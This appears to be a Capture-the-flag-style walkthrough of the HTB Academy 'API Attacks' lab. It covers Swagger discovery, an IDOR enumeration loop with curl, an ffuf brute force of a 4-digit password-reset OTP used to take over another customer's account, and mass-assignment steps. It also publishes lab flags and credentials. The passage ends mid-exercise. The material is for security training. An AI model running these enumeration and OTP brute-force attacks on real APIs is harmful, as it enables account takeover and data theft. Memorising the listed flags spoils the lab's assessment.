Welcome to **Part 23** of our comprehensive, production-grade masterclass covering the **Hack The Box (HTB) Academy Certified Penetration Testing Specialist (CPTS)** curriculum. Rather than providing superficial slide summaries, this series deconstructs offensive tradecraft from foundational network discovery and vulnerability verification to complex lateral movement, active directory exploitation, and post-exploitation tradecraft — complete with terminal command flows, verified lab flags, and defensive engineering countermeasures.

In this installment, we conduct an exhaustive technical deep-dive into **API Attacks** (Tier II • Medium • Offensive). We break down the underlying mechanics of REST and GraphQL API security, Broken Object Level Authorization (BOLA/IDOR), excessive data exposure, mass assignment, and API token manipulation, dissect hands-on offensive vectors, analyze realistic defensive telemetry, and walk through every exercise step-by-step with 100% verified solutions.

<div class="ff-series-nav"><a href="/posts/htb-academy-part-22-pivoting-tunneling-and-port-forwarding/" class="ff-nav-btn text-start">
    <div class="ff-nav-arrow"><i class="fas fa-arrow-left"></i></div>
    <div class="ff-nav-text">
      <span class="ff-nav-kicker">Previous Part</span>
      <span class="ff-nav-title">Part 22: Pivoting, Tunneling & Port Forwarding</span>
    </div>
  </a>
  <div class="ff-nav-center">
    <span class="ff-center-badge"><i class="fas fa-cube"></i> HTB Academy Series</span>
    <span class="ff-center-part">Part 23 of 41</span>
  </div>
  <a href="/posts/htb-academy-part-24-introduction-to-penetration-testing/" class="ff-nav-btn text-end">
    <div class="ff-nav-text">
      <span class="ff-nav-kicker">Next Part</span>
      <span class="ff-nav-title">Part 24: Introduction to Penetration Testing & Standards</span>
    </div>
    <div class="ff-nav-arrow"><i class="fas fa-arrow-right"></i></div>
  </a>
</div>

## Module Specifications & Target Architecture

| Attribute | Specification |
| :--- | :--- |
| **Module Name** | `API Attacks` |
| **Official HTB Academy Track** | [https://academy.hackthebox.com/module/160](https://academy.hackthebox.com/module/160) |
| **Curriculum Tier & Difficulty** | `Tier II` • `Medium` |
| **Certification Pathway** | `HTB Certified Penetration Testing Specialist (CPTS)` (Part 23 of 41) |
| **Author & Technical Attribution** | `Abdulrahman M. Fathi (0x3bdo)` |
| **Lab Flag Verification** | `100% Fully Solved & Validated` |

## Key Technical Takeaways

* **API Endpoint Discovery**: Discovers undocumented API versions, staging endpoints, and Swagger/OpenAPI documentation files.
* **Broken Object Level Authorization (BOLA)**: Manipulates object identifiers in API requests to access and modify unauthorized user records.
* **Mass Assignment Vulnerabilities**: Injects privileged parameters (e.g., `is_admin: true`, `role: administrator`) during account updates.
* **GraphQL Introspection & Abuse**: Discloses entire database schemas by querying GraphQL introspection endpoints and bypassing query depth limits.
* **Rate Limiting & Token Flaws**: Exploits missing rate limits on sensitive endpoints and tampers with API authorization tokens.

## Executive Summary & Assessment Scope

Application Programming Interfaces (APIs) represent the primary communication layer for modern web and mobile applications. APIs frequently expose broad business logic and direct database records, making them high-value targets when authorization controls are neglected.

In this module, we conduct comprehensive testing of REST and GraphQL APIs. We analyze the OWASP API Security Top 10, exploit BOLA/IDOR vulnerabilities, extract hidden schemas via GraphQL introspection, execute mass assignment attacks, and capture all assessment flags.

---

## Comprehensive Lab Walkthrough & Flag Solutions


### API Attacks

> **Lab Question (Page 1)**: Interact with any endpoint and inspect the response headers; what is the name of the server that the web API uses?
>
> **Flag / Answer**: `Kestrel`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

we use 'curl -I' to obtain the http response headers, including the
server header:
```bash
curl http://<target-IP>:<target-port> -I
```


*_Figure 1.1 — Lab execution and output verification (Page 1)_*


### and scroll down to roles

> **Lab Question (Page 2)**: There is only one endpoint belonging to the Roles group. Submit its path.
>
> **Flag / Answer**: `/api/v1/roles/current-user`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

we go to the website from the browser to '/swagger':
`http://<target-IP>:<target-port>/swagger`
and scroll down to roles:

Opening it, we can see there is only one role, with one path:


*_Figure 2.1 — Lab execution and output verification (Page 2)_*


*_Figure 2.2 — Lab execution and output verification (Page 2)_*


### Broken Object Level Authorization

> **Lab Question (Page 3)**: Exploit another Broken Object Level Authorization vulnerability and submit the flag.
>
> **Flag / Answer**: `HTB{e76651e1f516eb5d7260621c26754776}`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

First we need to authenticate – we go up to 'Authentication'

And then we authenticate to suppliers with the provided credentials:
'htbpentester2@pentestercompany.com:HTBPentester2:

And execute:


*_Figure 3.1 — Lab execution and output verification (Page 3)_*


*_Figure 3.2 — Lab execution and output verification (Page 3)_*


### Then – we scroll up to authorized

We get an outfput of the format: '"jwt":"`<base64-value>`"' – we copy the
`<base64-value>`.
Then – we scroll up to authorized:

And enter the value there – it logs us in:


Now that we are authenticated, we can run
/api/v1/suppliers/quarterly-reports/{ID}


*_Figure 4.1 — Lab execution and output verification (Page 4)_*


*_Figure 4.2 — Lab execution and output verification (Page 4)_*


*_Figure 4.3 — Lab execution and output verification (Page 4)_*


### We will use bash to automate curl from {ID} 1 to 10

We will use bash to automate curl from {ID} 1 to 10:
for var in {1..10}; do   curl -X 'GET'     "http://`<target-IP>`:`<target-port>`/api/v1/suppliers/quarterly-reports/$var"
-H 'accept: application/json'     -H 'Authorization: Bearer
`<authentication-code>`'; done | grep HTB -i
and grep for 'HTB', which is constant part of the flag:

*
*

We can see the grep marked the HTB, which makes the flag
'HTB{e76651e1f516eb5d7260621c26754776}'


*_Figure 5.1 — Lab execution and output verification (Page 5)_*


*_Figure 5.2 — Lab execution and output verification (Page 5)_*


### Broken Authentication

> **Lab Question (Page 6)**: Exploit another Broken Authentication vulnerability to gain unauthorized access to the customer with the email 'MasonJenkins@ymail.com'. Retrieve their payment options data and submit the flag.
>
> **Flag / Answer**: `HTB{115a6329120e9eff13c4ec6a63343ed1}`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

We will first reset 'MasonJenkins@ymail.com' password by
requesting OTP (one time password),  in
/api/v1/authentication/customers/passwords/resets/email-otps


The OTP generated is 4 digits pincode, now we can proceed to bruteforce it.

We will go for
/api/v1/authentication/customers/passwords/resets


*_Figure 6.1 — Lab execution and output verification (Page 6)_*


*_Figure 6.2 — Lab execution and output verification (Page 6)_*


### We will use it using the ffuf tool and the command

#### Technical Methodology & Exploit Execution:

```bash
ffuf -u http://<target-IP:<target-port>/api/v1/authentication/customers/passwords/resets
-X POST      -H "accept: application/json"      -H "Content-Type: application/json"      -d '{"Email":
"MasonJenkins@ymail.com", "OTP": "FUZZ", "NewPassword":
"jonsnow123"}'      -w /usr/share/seclists/Fuzzing/4-digits-
0000-9999.txt      -fr "false"
```


And we got the OTP of 'MasonJenkins@ymail.com' – 8806 (value is changed
every OTP reset, and different every time)
And once we hit that, we changed the password to 'jonsnow123'
("NewPassword": "jonsnow123").
We proceed to authenticate with the credentials
MasonJenkins@ymail.com:jonsnow123


*_Figure 7.1 — Lab execution and output verification (Page 7)_*


*_Figure 7.2 — Lab execution and output verification (Page 7)_*


*_Figure 7.3 — Lab execution and output verification (Page 7)_*


*_Figure 7.4 — Lab execution and output verification (Page 7)_*


→

And we get the swagger login string. And go to
/api/v1/customers/payment-options/current-user


*_Figure 8.1 — Lab execution and output verification (Page 8)_*


*_Figure 8.2 — Lab execution and output verification (Page 8)_*


*_Figure 8.3 — Lab execution and output verification (Page 8)_*


*_Figure 8.4 — Lab execution and output verification (Page 8)_*


### Broken Object Property Level Authorization

> **Lab Question (Page 9)**: Exploit another Excessive Data Exposure vulnerability and submit the flag.
>
> **Flag / Answer**: `HTB{d759c70b5a9f6a392af78cc1eca9cdf0}`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

First, we will authenticate to customers with the provided credentials
'htbpentester5@hackthebox.com:HTBPentester5'.
Then, we go to:
/api/v1/supplier-companies


→

The requests gets us all suppliers-companies, including the supplier of the flag.


*_Figure 9.1 — Lab execution and output verification (Page 9)_*


*_Figure 9.2 — Lab execution and output verification (Page 9)_*


> **Lab Question (Page 10)**: Exploit another Mass Assignment vulnerability and submit the flag.
>
> **Flag / Answer**: `HTB{4d86794f82046e465ca29d91bdbe5bca}`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

First, we will authenticate to customers using the provided credentials
'htbpentester7@hackthebox.com:HTBPentester7'.

Now, we need OrderID from
/api/v1/customers/orders
(POST)

We select today's date (December 3rd 2024)
→

And get the OrderID: '65e0f175-a392-4150-8309-0c0f7cf5e245'


*_Figure 10.1 — Lab execution and output verification (Page 10)_*


*_Figure 10.2 — Lab execution and output verification (Page 10)_*


### And put in the request the obtained OrderID and ProductID

We also need ProductID from
/api/v1/products
(GET)

→

We will take the first product in random: 'a923b706-0aaa-49b2-ad8d-
21c97ff6fac7'.

Now that we have Both OrderID and a ProdictID, we go to
/api/v1/customers/orders/items

And put in the request the obtained OrderID and ProductID:


*_Figure 11.1 — Lab execution and output verification (Page 11)_*


*_Figure 11.2 — Lab execution and output verification (Page 11)_*


And modify the Quantity and NetSum to random number (lets say – 4)
→

